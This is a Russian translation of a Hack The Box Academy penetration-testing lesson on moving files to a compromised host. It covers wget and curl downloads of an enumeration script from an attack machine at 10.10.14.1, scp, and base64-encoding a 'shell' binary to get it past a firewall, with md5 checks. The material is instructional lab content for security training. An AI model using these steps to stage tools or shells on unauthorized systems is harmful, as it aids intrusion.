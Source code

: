 # Transferring Files

Во время любого упражнения по тестированию на проникновение вполне вероятно, что нам потребуется передать файлы на удаленный сервер, такие как сценарии перечисления или эксплойты, или передать данные обратно на наш хост атаки. Хотя такие инструменты, как Metasploit с оболочкой Meterpreter, позволяют нам использовать `Upload` Чтобы загрузить файл, нам нужно изучить методы передачи файлов с помощью стандартной обратной оболочки.

---

## Using wget

Есть много способов добиться этого. Один из методов — запустить [HTTP-сервер Python](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) на нашей машине, а затем использовать `wget` или `cURL`для загрузки файла на удаленный хост. Сначала мы заходим в каталог, содержащий файл, который нам нужно передать, и запускаем в нем HTTP-сервер Python:

Передача файлов

```shell-session
Uliam@htb[/htb]$ cd /tmp
Uliam@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Теперь, когда мы настроили прослушивающий сервер на нашем компьютере, мы можем загрузить файл на удаленный хост, на котором выполняется код:

Передача файлов

```shell-session
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

Обратите внимание, что мы использовали наш IP `10.10.14.1` и порт, на котором работает наш сервер Python `8000`. Если на удаленном сервере нет `wget`, мы можем использовать `cURL` чтобы скачать файл:

Передача файлов

```shell-session
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

Обратите внимание, что мы использовали `-o` флаг, чтобы указать имя выходного файла.

---

## Using SCP

Другой метод передачи файлов — использование `scp`, при условии, что мы получили учетные данные пользователя ssh на удаленном хосте. Мы можем сделать это следующим образом:

Передача файлов

```shell-session
Uliam@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

Обратите внимание, что мы указали имя локального файла после `scp`, и удаленный каталог будет сохранен после `:`.

---

## Using Base64

В некоторых случаях мы не сможем передать файл. Например, удаленный хост может иметь защиту брандмауэра, которая не позволяет нам загрузить файл с нашего компьютера. В такой ситуации мы можем использовать простой трюк для [base64.](https://linux.die.net/man/1/base64) кодирования файла в `base64` формат, а затем мы можем вставить `base64`строку на удаленном сервере и декодируйте ее. Например, если мы хотим передать двоичный файл с именем `shell`, мы можем `base64` закодируйте его следующим образом:

Передача файлов

```shell-session
Uliam@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

Теперь мы можем скопировать это `base64` строку, перейдите на удаленный хост и используйте `base64 -d` чтобы декодировать его и передать вывод в файл:

Передача файлов

```shell-session
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

---

## Validating File Transfers

Чтобы проверить формат файла, мы можем запустить [file :](https://linux.die.net/man/1/file) для него команду

Передача файлов

```shell-session
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

Как мы видим, когда мы запускаем `file` команда на `shell`файл, там написано, что это двоичный файл ELF, а это значит, что мы его успешно передали. Чтобы убедиться, что мы не испортили файл в процессе кодирования/декодирования, мы можем проверить его хеш md5. На нашей машине мы можем запустить `md5sum` в теме:

Передача файлов

```shell-session
Uliam@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

Теперь мы можем перейти на удаленный сервер и выполнить ту же команду для переданного нами файла:

Передача файлов

```shell-session
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

Как мы видим, оба файла имеют одинаковый хэш md5, то есть файл был передан корректно. Существуют и другие способы передачи файлов. Вы можете ознакомиться с [модулем «Передача файлов»](https://academy.hackthebox.com/module/details/24) для более подробного изучения передачи файлов.